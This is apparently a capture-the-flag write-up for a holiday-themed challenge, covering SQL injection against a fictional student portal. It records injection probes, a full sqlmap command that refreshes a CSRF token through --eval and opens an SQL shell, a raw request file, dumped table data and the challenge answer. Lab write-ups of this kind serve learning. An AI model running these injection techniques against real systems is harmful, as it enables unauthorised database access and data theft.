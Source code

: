 ```yaml
---
layout: objective
title: "Retrieve Scraps of Paper from Server"
#date: 2018-12-03
number: "9"
#image: "challenge.md"
question: "Get the scraps of paper from the student portal"
answer: "super sled-o-matic"
elf: "pepper"
images: ["1.png"]
narrative: ""
tags: [sample post, readability, test]
comments: false
image-dir: /assets/img/objectives/9
links: ["https://studentportal.elfu.org/"]
comments: false
---
```

<figure>
	<img src="/assets/img/objectives/9/question.jpg">
	<figcaption>Question</figcaption>
</figure>


Pepper is saying to use SQL Injection
<figure>
	<img src="/assets/img/elves/pepper/riddle.jpg">
	<figcaption>Question</figcaption>
</figure>

SQLi for blind sql injection and SQLMap and custom  tamper scripts.

From slack hints, the paper appears to be encrypted.

Probably will leverage this talk https://www.youtube.com/watch?v=obJdpKDpFBA

NOTES about the student server:

PHP server
There is a Desired Course of Study.  You can submit a request for an application, and then test the results of the application

On the Application page, I tried to insert bad code

Error: 
INSERT INTO applications (name, elfmail, program, phone, whyme, essay, status) VALUES ('SHAUN', 'test@test.com', 'select title, text from news where id=10 or 1=1', '4437584455', 'select title, text from news where id=10 or 1=1', 'select title, text from news where id=10 or 1=1', 'pending')
Duplicate entry 'test@test.com' for key 'elfmail'

elfmail looks to be the culprit.  


<figure>
	<img src="/assets/img/objectives/9/1.jpg">
	<figcaption>Data Returned</figcaption>
</figure>

When submitting a check for the application, this is the URL
```
https://studentportal.elfu.org/application-check.php?elfmail=test%40test.com&token=MTAwOTkyMjU5NTg0MTU3ODAwNDA1NjEwMDk5MjI1OS41ODQ%3D_MTI5MjcwMDkyMjY3NTIzMjMxNzUyMzA2LjY4OA%3D%3D
```

The "check.php" page has the form to submit to check.
This is the javascript
<figure>
	<img src="/assets/img/objectives/9/2.jpg">
	<figcaption>Scripts</figcaption>
</figure>


A call to "validator.php" with the token value
That returned a token: ```MTAwOTkyMzI5NjY0MTU3ODAwNTE1MTEwMDk5MjMyOS42NjQ=_MTI5MjcwMTgxOTY5OTIzMjMxNzU0NTQ5LjI0OA==```

The encoded value is submitted to application check

```
/application-check.php?elfmail=test%40test.com&token=MTAwOTkyMzI5NjY0MTU3ODAwNTE1MTEwMDk5MjMyOS42NjQ%3D_MTI5MjcwMTgxOTY5OTIzMjMxNzU0NTQ5LjI0OA%3D%3D
```

The token appears to change relative to the submitted email address.

Initial testing wtih sqlmap showed that I could not use the SqlMap CSRF capabilities.  However, SqlMap will allow
an --eval switch that will get the token from validator.php and overwrite that 

In order to submit, I will have to quickly grab a token and overwrite the "token" url.

```bash
python3 sqlmap.py -l send.txt \
	-p 'elfmail' \
	--proxy='https://localhost:8080' \
	--level=5 \
	--risk=2 \
	--eval="import urllib.request;import urllib.parse;page = urllib.request.urlopen('https://studentportal.elfu.org/validator.php');token = (page.read()).decode('utf-8');" \
	--sql-shell
```

With send.txt file containing a copy of the HTTP header information
```
GET /application-check.php?elfmail=test%40test.com&token=DEADB HTTP/1.1
Host: studentportal.elfu.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://studentportal.elfu.org/check.php
Connection: close
Upgrade-Insecure-Requests: 1

```

The  --dump is showing three tables: applications, krampus, and students

applications is taking forever, and contains a all the application submitted so far, so trying krumpus

Ran the above command with the --sql-shell so I can do recon

<figure>
	<img src="/assets/img/objectives/9/3.jpg">
	<figcaption>SQL Shell</figcaption>
</figure>

Looking for all values of the Krampus table, I see referencds to 6 images

<figure>
	<img src="/assets/img/objectives/9/4.jpg">
	<figcaption>Images</figcaption>
</figure>

<figure>
	<img src="/assets/img/objectives/9/img1.png">
	<figcaption>Images 1</figcaption>
</figure>

<figure>
	<img src="/assets/img/objectives/9/img2.png">
	<figcaption>Images 2</figcaption>
</figure>
<figure>
	<img src="/assets/img/objectives/9/img3.png">
	<figcaption>Images 3</figcaption>
</figure>
<figure>
	<img src="/assets/img/objectives/9/img4.png">
	<figcaption>Images 4</figcaption>
</figure>
<figure>
	<img src="/assets/img/objectives/9/img5.png">
	<figcaption>Images 5</figcaption>
</figure>
<figure>
	<img src="/assets/img/objectives/9/img6.png">
	<figcaption>Images 6</figcaption>
</figure>

I also extracted the Students table just in case

```
select * from students [9]:
[*] My goal is to be a happy elf!, Raindeer Husbandry, 1, Elfie, 392363902026
[*] I'm just a elf. Yes, I'm only a elf. And I'm sitting here on Santa's sleigh, it's a long, long journey To the christmas tree. It's a long, long wait while I'm tinkering in the factory. But I know I'll be making kids smile on the holiday... At least I hope and pray that I will But today. I'm still ju, Dreamineering, 2, Elferson, 39210852026
[*] Have you seen my list??? It is pretty high tech!, Geospatial Intelligence, 3, Alabaster Snowball, 392363902026
[*] I am an engineer and the inventor of Santa's magic toy-making machine., Composites and Engineering, 4, Bushy Evergreen, 392363902026
[*] My goal is to be a happy elf!, Toy Design, 5, Wunorse Openslae, 39236372526
[*] My goal is to be a happy elf!, Present Wrapping, 6, Bushy Evergreen, 392363128026
[*] Check out my makeshift armour made of kitchen pots and pans!!!, Reindeer Husbandry, 7, Pepper Minstix, 392363902026
[*] My goal is to be a happy elf!, Present Wrapping, 8, Sugarplum Mary, 5682168522137
[*] Santa and I are besties for life!!!, Holiday Cheer, 9, Shinny Upatree, 228755779218
```

The Krampus images put together are a message from someone claiming to sabatoge the Super Sled-o-matic

<figure>
	<img src="/assets/img/objectives/9/fullimage.png">
	<figcaption>Full Image</figcaption>
</figure>

There is still one scrap missing, that will tell who did this.  but, judging from the stationairy, its Hermy.

